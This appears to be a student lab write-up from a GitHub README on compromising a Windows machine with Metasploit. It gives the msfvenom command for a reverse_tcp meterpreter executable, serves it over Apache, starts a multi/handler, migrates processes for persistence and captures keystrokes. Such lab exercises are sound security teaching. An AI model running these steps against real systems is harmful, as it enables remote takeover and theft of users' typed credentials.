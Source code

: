 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:

![272774215-606e3364-b0b9-43b5-9250-795b7598c04e](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/eb925d99-616c-453c-8f38-d0e8f291c585)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![272774237-5dc05fce-63a2-47f9-b694-746b22ba200d](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/2c0e895a-d547-4239-87f1-49f5dafd488a)

copy the fun.exe into the apache /var/www/html folder image
![272774266-480f5425-ce40-497b-8b25-b7ad72bbaed8](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/229ec72b-141c-445e-90d6-8548a482df90)

Start apache server sudo systemctl apache2 start
![272774295-9d9a575a-d0d4-4463-adf7-ee84feedd93b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/26ef8941-cf20-4a5f-81f7-9ce509f61dac)



Check the status of apache2 image
![272774317-15c93b77-e16e-4fb1-9b41-6a7aeb1cd19b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/104fbda8-d611-4d54-8db8-c69aa68a7658)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit image
![272774391-f96bb7a2-4ba8-42d1-8c0e-f8f834e34bdc](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5a170cb9-00fb-469e-9ce7-ca3debbe8a30)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. image
![272774478-17e4e8a1-f58e-422e-abd4-b79905434188](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/b320515b-e72f-4698-b928-f9456de8c7ae)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image
![272774502-ae0f8e8c-f937-4ab1-85ad-1971688afc40](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/599d800c-bfa1-432f-8f87-a98ac2800401)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted image
![272774538-f6588fa0-2bf1-422e-a42f-cf7d687385a6](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/ad84f426-0f0a-40a5-bd0f-aa34113cff15)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. image
![272774564-5409594d-f21d-4c89-9c27-7e3c5cc2ee27](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/f7d6f8d5-4a84-42ca-be54-a8b536c271c2)

keyscan_dump Shows the keystrokes captured so far image
![272774589-ea183567-a808-4dd4-81ca-9d782aae245c](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5ab8e4b7-7436-440a-9c26-b66df000cd80)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.





